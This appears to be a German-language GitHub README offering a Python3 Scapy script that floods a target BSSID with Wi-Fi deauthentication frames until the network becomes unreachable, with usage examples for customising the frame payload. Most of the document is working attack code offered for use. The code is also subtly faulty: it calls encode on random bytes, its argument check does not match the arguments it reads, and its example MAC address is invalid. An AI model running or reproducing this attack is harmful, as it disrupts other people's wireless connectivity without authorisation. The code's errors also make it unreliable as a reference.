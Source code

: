 # Python3-Deauthentification-Attack
Python3 Programming 
Das Script greift auf das "Scapy" -Modul von Python3 zu und sendet bestimmte Packete zu einer BSSID-Addresse, bis diese nicht mehr 
erreibar ist.


    Du kannst die dazugeörige Nachricht, die in Zeile 16 ist, ändern. Somit ist der Angriff effektiver.
    Hier gibt es aber auch eine bestimmte Zahl an Bytes, die die Größe der Nachricht nicht überschreiten darf.
    
    
Example (eigener Text):
        
        pkg = "ich bin eine große nachricht ahahhahahahahahahha"
        msg = pkg.encode()
    
Example (mit Modul "random"):
        
        import random #muss am anfang des Scripts eingefügt werden
        msg = random._urandom(44)
    

Script mit Modul "random":


    from scapy.all import *
    import sys,random
    from colorama import *

    init()
    if (len(sys.argv) < 3):
        print(" ")
        print(" ")
        print("[!] I need the target BSSID, COUNTER and the Size of the Message!")
        print(" ")
        print(" ")
        print("[*] Example: python deauth.py aa:1V:3C:dd:ee:ff 1000 44")
        print(" ")
        quit()
    size = sys.argv[3]
    brdmac = "aa:bb:cc:dd:ee:ff"
    pkg = random._urandom(int(size))
    msg = pkg.encode()
    packet = (RadioTap()/Dot11(addr1 = brdmac, addr2 = sys.argv[1], addr3 = sys.argv[1])/Dot11Deauth()
            /(msg))
    print(Fore.YELLOW)
    sendp(packet,count=int(sys.argv[2]))
